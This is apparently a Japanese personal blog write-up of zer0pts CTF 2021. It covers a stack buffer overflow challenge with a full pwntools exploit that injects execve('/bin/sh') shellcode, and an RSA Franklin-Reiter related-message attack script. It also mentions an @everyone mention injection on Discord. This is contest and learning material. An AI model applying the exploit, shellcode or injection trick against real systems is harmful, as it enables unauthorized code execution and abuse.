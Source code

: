 +++
title = "zer0pts CTF 2021 writeup"
date = 2021-03-07

[taxonomies]
tags = ["CTF"]
+++

## ポエム

### tl;dr

3/6 09:00 〜 3/7 21:00 に開催された zer0pts CTF 2021 にチーム 0xdef12e (ソロ) で参加しました。
ptr-yudaiさんには SECCON Beginners の Discord で Villager B 関連で相談させて頂いたり、Paken CTF 2020でも色々（）と教えて頂いたりと個人的に一番お世話になっている CTF Player なので結構前から楽しみにしていたイベントです。

問題は宣言されている通り、Guess 要素が本当になかったです。~~テレビの謎解きもこれくらいを目指してくれ~~ 強いて言うなら、Janken VS yoshiking で本当にじゃんけんに 100 回連続で勝てれば...？（つらすぎ）

さて、結果はと言うと Welcome とかを除くと 2 完でした。順位は 131/951 です（得点を得たチームのみ）。かな〜り微妙ですが、CTF 初心者としましては割と頑張った方なんです！！（主張）

<!-- more -->

{{image(src="../img/zer0pts-ctf-2021/diploma.png")}}


### 雑

問題はもちろん面白かったですが、それ以外で一番面白かったのは Discord での @everyone Injection があった事ですね。#solve-notification で 

> `0xdef12e` solved `Welcome`

みたいな感じで誰がどれを解いたかが通知されるんですが、ID を ``a`@everyone`` にして ``` ` ``` を閉じて @everyone メンションをした人がいました。その人はイエローカードを食らっていましたが、個人的に CTF らしくて面白かったです。

## [pwn] Not Beginner's Stack

ご親切にコードと初心者向けの説明書が同封されています。

<details>
<summary>main.S</summary>

```
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt
  
section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024
```
</details>

<details>
<summary>Meta data</summary>

```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
</details>

<details>
<summary>result of objdump</summary>

```
00000000004000b0 <_start>:
  4000b0:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000b7:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4000cc
  4000be:	00 cc 00 40 00 
  4000c3:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4000ca:	eb 1f                	jmp    4000eb <notvuln>

00000000004000cc <..@2.return_address>:
  4000cc:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000d3:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4000eb
  4000da:	00 eb 00 40 00 
  4000df:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4000e6:	e9 33 01 00 00       	jmp    40021e <exit>

00000000004000eb <notvuln>:
  4000eb:	c8 00 01 00          	enter  0x100,0x0
  4000ef:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4000f6:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x40010b
  4000fd:	00 0b 01 40 00 
  400102:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400109:	eb 71                	jmp    40017c <vuln>

000000000040010b <..@4.return_address>:
  40010b:	ba 06 00 00 00       	mov    edx,0x6
  400110:	be 28 02 60 00       	mov    esi,0x600228
  400115:	31 ff                	xor    edi,edi
  400117:	ff c7                	inc    edi
  400119:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400120:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x400138
  400127:	00 38 01 40 00 
  40012c:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400133:	e9 cb 00 00 00       	jmp    400203 <write>

0000000000400138 <..@5.return_address>:
  400138:	ba 00 01 00 00       	mov    edx,0x100
  40013d:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
  400144:	31 ff                	xor    edi,edi
  400146:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  40014d:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x400165
  400154:	00 65 01 40 00 
  400159:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  400160:	e9 85 00 00 00       	jmp    4001ea <read>

0000000000400165 <..@6.return_address>:
  400165:	31 c0                	xor    eax,eax
  400167:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  40016e:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400175:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

000000000040017c <vuln>:
  40017c:	c8 00 01 00          	enter  0x100,0x0
  400180:	ba 06 00 00 00       	mov    edx,0x6
  400185:	be 28 02 60 00       	mov    esi,0x600228
  40018a:	31 ff                	xor    edi,edi
  40018c:	ff c7                	inc    edi
  40018e:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400195:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4001aa
  40019c:	00 aa 01 40 00 
  4001a1:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4001a8:	eb 59                	jmp    400203 <write>

00000000004001aa <..@8.return_address>:
  4001aa:	ba 00 10 00 00       	mov    edx,0x1000
  4001af:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
  4001b6:	31 ff                	xor    edi,edi
  4001b8:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001bf:	48 c7 04 cd 34 02 60 	mov    QWORD PTR [rcx*8+0x600234],0x4001d4
  4001c6:	00 d4 01 40 00 
  4001cb:	ff 04 25 2e 02 60 00 	inc    DWORD PTR ds:0x60022e
  4001d2:	eb 16                	jmp    4001ea <read>

00000000004001d4 <..@9.return_address>:
  4001d4:	c9                   	leave  
  4001d5:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  4001dc:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001e3:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

00000000004001ea <read>:
  4001ea:	31 c0                	xor    eax,eax
  4001ec:	0f 05                	syscall 
  4001ee:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  4001f5:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  4001fc:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

0000000000400203 <write>:
  400203:	31 c0                	xor    eax,eax
  400205:	ff c0                	inc    eax
  400207:	0f 05                	syscall 
  400209:	ff 0c 25 2e 02 60 00 	dec    DWORD PTR ds:0x60022e
  400210:	8b 0c 25 2e 02 60 00 	mov    ecx,DWORD PTR ds:0x60022e
  400217:	ff 24 cd 34 02 60 00 	jmp    QWORD PTR [rcx*8+0x600234]

000000000040021e <exit>:
  40021e:	b8 3c 00 00 00       	mov    eax,0x3c
  400223:	0f 05                	syscall 
```
</details>

`vuln` を呼び出して 0x1000 文字読み込んだ後、`notvuln` を呼び出して 0x100 文字読み込むというプログラムです。

0x100 文字のバッファに 0x1000 文字読み込む単純な Buffer Over Flow が起きているのは明らかです。しかし、残念ながら大量に入力しても Segmentation Fault にはなりません。どうやら単純な ROP は出来なさそうです。

と言うのも、objdump の結果を見てみると、`ret` の文字がありません。なんてこった！ 手掛かりを探るため、gdb で動的解析をしてみます。

{{image(src="../img/zer0pts-ctf-2021/gdb.png")}}

早速 `notvuln` の読み込み部分で気になる所が。読み込み先である第二引数のアドレスが、`vuln` で入力した値に含まれるっぽい...? これはつまり、**任意のアドレスに任意の値を代入できる** という事を意味します。

```
  40013d:	48 8d b5 00 ff ff ff 	lea    rsi,[rbp-0x100]
```

もう少し詳しく解析すると、

- `vuln` での入力から `notvuln` の `rbp` までのオフセットは 0x100（正確には、`vuln` の `saved rbp`）
- 第二引数になる `rsi` は `rbp` - 0x100　→　つまり、入力したいアドレス + 0x100 を `rbp` にすれば良い

という事が分かります。では、どこに何を入れれば `rip` を奪取できるかを考えてみましょう。

{{image(src="../img/zer0pts-ctf-2021/gdb2.png")}}

これは、プログラムが `exit` で終了する直前の様子です。0x600234 + `rcx` * 8 、つまり 0x60023C から `rip` を読み込んでジャンプしています。そして、**0x60023c は writable & excutable** です。

```
00400000-00401000 r-xp 00000000 08:07 14683508                           /home/defineprogram/Desktop/CTF/zer0ptsCTF2021/pwn/not beginner/not_beginners_stack/chall
00600000-00601000 rwxp 00000000 08:07 14683508                           /home/defineprogram/Desktop/CTF/zer0ptsCTF2021/pwn/not beginner/not_beginners_stack/chall
7ffff7ffb000-7ffff7ffe000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffe000-7ffff7fff000 r-xp 00000000 00:00 0                          [vdso]
7ffffffde000-7ffffffff000 rwxp 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
```

という事は、スタックの状態を以下のようにするとシェルを取れそうです！

- 0x60023c : 0x60023c + 0x8 = 0x600244 (シェルコードのアドレス)
- 0x600244 : shellcode

このようにすると、`jmp    QWORD PTR [rcx*8+0x600234]` で `rip` に 0x600244 がセットされ、シェルコードが実行されます！

<details>
<summary>Exploit Code</summary>

```py
from pwn import *
elf=ELF("./chall")
p=remote("pwn.ctf.zer0pts.com", 9011)

payload=b"A"*256+p64(0x60023c+0x100)
p.sendlineafter(b"Data: ",payload)
payload=p64(0x600244)+b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
p.sendlineafter(b"Data: ",payload)

p.interactive()
```
</details>

FLAG : `zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}`

解くのに 1 時間くらい掛かってしまいました。

## [crypto] war(sa)mup

> Do you know RSA? I know.

セグメント木を知っていますか？僕は知っています。（定形文）

さて、重要な部分を抜粋すると以下です。

```py
m = pad(int.from_bytes(flag, "big"), n)
c1 = pow(m, e, n)
c2 = pow(m // 2, e, n)

print("n =", n)
print("e =", e)
print("c1=", c1)
print("c2=", c2)
```

```
n = 113135121314210337963205879392132245927891839184264376753001919135175107917692925687745642532400388405294058068119159052072165971868084999879938794441059047830758789602416617241611903275905693635535414333219575299357763227902178212895661490423647330568988131820052060534245914478223222846644042189866538583089
e = 1337
c1= 89077537464844217317838714274752275745737299140754457809311043026310485657525465380612019060271624958745477080123105341040804682893638929826256518881725504468857309066477953222053834586118046524148078925441309323863670353080908506037906892365564379678072687516738199061826782744188465569562164042809701387515
c2= 18316499600532548540200088385321489533551929653850367414045951501351666430044325649693237350325761799191454032916563398349042002392547617043109953849020374952672554986583214658990393359680155263435896743098100256476711085394564818470798155739552647869415576747325109152123993105242982918456613831667423815762
```

`m//2` が気になりますね。もし $m$ が $2$ で割り切れるなら 

$$
(m/2)^e\ mod\ n \equiv \frac{m^e}{2^e}\ mod\ n
$$

ですから、これに $2^e$ を掛けた値と `c1` は一致するはずです。逆に、割り切れない場合は $2^e$ を掛けた値は 

$$
(m-1)^e\ mod\ n
$$

となるはずです。実際に計算すると、$2^e$ を掛けた値は `c1` と一致しません。つまり、以下の値が判明します。

- $m^e\ mod\ n$
- $(m-1)^e\ mod\ n$

平文が非常に近いですね。こういう時に使える攻撃手法がないかな〜と思って調べると、[Related Message Attack の記事](https://hackmd.io/@Xornet/B16W75IND) がヒットしました。

理解は後日する事にして（最悪）、sage math のスクリプトがあるのでコピペして（最悪 2）ちょっと改変すると、FLAG が表示されました！

```py
from binascii import hexlify, unhexlify
from string import printable


def str_to_num(s):
    return int(hexlify(s), 16)


def num_to_str(s):
    hexed = hex(s)[2:]
    if len(hexed) % 2 == 1:
        hexed = "0" + hexed
    return unhexlify(hexed)


def gcd(a, b):
    while b:
        a, b = b, a % b
    return a.monic()


def franklinreiter(c_1, c_2, e_1, e_2, N, a, b):
    P.<X> = PolynomialRing(Zmod(N))
    g_1 = X^e_1 - c_1
    g_2 = (a*X + b)^e_2 - c_2
    # get constant term
    result = -gcd(g_1, g_2).coefficients()[0]

    return result
 
n = 113135121314210337963205879392132245927891839184264376753001919135175107917692925687745642532400388405294058068119159052072165971868084999879938794441059047830758789602416617241611903275905693635535414333219575299357763227902178212895661490423647330568988131820052060534245914478223222846644042189866538583089
e = 1337
c1= 89077537464844217317838714274752275745737299140754457809311043026310485657525465380612019060271624958745477080123105341040804682893638929826256518881725504468857309066477953222053834586118046524148078925441309323863670353080908506037906892365564379678072687516738199061826782744188465569562164042809701387515
c2= 18316499600532548540200088385321489533551929653850367414045951501351666430044325649693237350325761799191454032916563398349042002392547617043109953849020374952672554986583214658990393359680155263435896743098100256476711085394564818470798155739552647869415576747325109152123993105242982918456613831667423815762
c3=c2*pow(2,e,n)%n

plain=num_to_str(franklinreiter(c1,c3,e,e,n,1,-1))
print(plain)
```

```
b'\x02\x81\xae\xed \xdd\x07\x12;\x99\xc7d:\x99\x1a8\x16\xfe\xe6<\x18\x1dw\xea&\xfb\xfc\x8a\xa7\xa8\xba\xfa\xd8\xbe\xdf\x01\x13\xcb\xd3\x99\x9c\xf3_\x18qw\xb99}\'Q\xd7~\x03&^\xcd\x9aw\xf0\xef\xb5\x04\x1b\xb7\n\xe1\xcd"\x95ff]\x0c(H\x99\xb5\xed\xc3\x82\x9dl\xe4\x8c\xddx\xfd\x00zer0pts{y0u_g07_47_13457_0v3r_1_p0in7}'
```

FLAG : `zer0pts{y0u_g07_47_13457_0v3r_1_p0in7}`

## おしまい

い　か　が　で　し　た　か　？　笑

最近は CTF に傾倒しがちですが、そろそろ競プロも復帰しようと思っています。多分もう 2 ヶ月くらい rated 参加してないので... ← 引退か？

取り敢えず、残り 2 日間の期末を乗り越えるぞ！！（なお、破滅確定）